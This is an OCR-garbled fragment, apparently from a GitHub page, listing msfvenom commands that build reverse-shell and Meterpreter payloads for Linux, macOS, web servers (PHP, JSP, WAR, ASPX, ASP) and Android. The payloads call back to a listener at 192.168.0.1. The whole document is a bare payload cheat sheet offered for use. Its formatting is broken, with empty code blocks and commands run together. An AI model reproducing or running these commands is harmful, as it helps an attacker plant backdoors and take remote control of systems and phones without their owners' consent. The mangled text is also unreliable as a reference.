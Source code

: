 ```
`#msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -e -f elf -a x86 --platform linux -o shell``#msfvenom -p cmd/unix/reverse_bash LHOST=192.168.0.1 LPORT=11111 -f raw > shell.sh`
```






```

###### **MacOS**

```


### 

```
#msfvenom -p osx/x86/shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f macho > shell.macho
```






```

###### **Web**

```


### 

```
`#msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw > shell.php``#msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f war > shell.war``#msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f aspx -o payload.aspx``#msfvenom --platform java -p java/jsp_shell_reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f raw -o payload.jsp``#msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f asp > shell.asp`
```






```

###### **Android**

```


### 

```
`#msfvenom -a x86 --platform Android -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=11111 -f apk -o payload.apk``#msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=12138 -f raw > shell.apk``#msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.1 LPORT=12138 R > test.apk`
```
